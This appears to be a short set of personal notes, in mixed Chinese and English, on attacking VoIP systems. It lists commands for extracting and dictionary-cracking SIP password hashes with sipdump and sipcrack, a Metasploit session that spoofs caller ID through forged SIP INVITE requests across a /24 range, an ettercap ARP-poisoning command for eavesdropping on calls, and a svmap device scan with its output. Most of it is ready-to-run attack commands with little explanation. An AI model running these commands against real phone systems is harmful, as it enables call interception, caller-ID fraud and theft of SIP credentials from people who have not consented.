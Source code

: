 ## http://www.concise-courses.com/learn/how-to-exploit-voip/

### 破解 SIP 密码

	用 wireshark 抓包生成 test.pcap
	sipdump pashash.txt -p test.pcap 从数据包中获取哈希密码
	sipcrack pashash.txt -w passlist.txt 通过字典文件 passlist.txt 破解哈希密码

### 使用 wireshark 监听数据包中的语音

	wireshark - statistics - hierarchy
	（wireshark - 统计 - 等级制度）
	发现多数流量都是 Real-Time Transport Protocol
	wireshark - Telephony - VoIP Calls
	（wireshark - 电话 - VoIP Calls）
	
SIP Invite Spoof(fake call)
http://www.youtube.com/watch?v=GkdyQVh36qc
	this module will create a fake SIP invite request making the targeted device ring and display fake caller id information
	The spoofed caller is send MSG(fake caller id)
	Use metasploit and sip phone(SFLphone)
	
	root@kali:~# msfconsole
	msf > search sip
	msf > use auxiliary/voip/sip_invite_spoof
	msf auxiliary(sip_invite_spoof) > show options
	msf auxiliary(sip_invite_spoof) > set DOMAIN 15261@sip.sflphone.org(软电话使用的域)
	msf auxiliary(sip_invite_spoof) > set SRCADDR 37.244.213.229(本机地址)
	msf auxiliary(sip_invite_spoof) > set RHOSTS 37.244.213.229/24
	msf auxiliary(sip_invite_spoof) > run
	
Eavesdrop on VoIP Conversations
http://www.youtube.com/watch?v=YGi4rSDofTs
	ettercap -T -M ARP -i <interface> // //
	使用 wireshark 抓包
	
http://www.ehacking.net/2012/06/voip-sniffing-cracking-phishing.html

http://www.backtrack-linux.org/wiki/index.php/Pentesting_VOIP

sipvicious 工具集
root@kali:~# svmap 172.16.179.1
| SIP Device        | User Agent                | Fingerprint |
---------------------------------------------------------------
| 172.16.179.1:5060 | VoxStack Wireless Gateway | disabled    |

svwar 不好用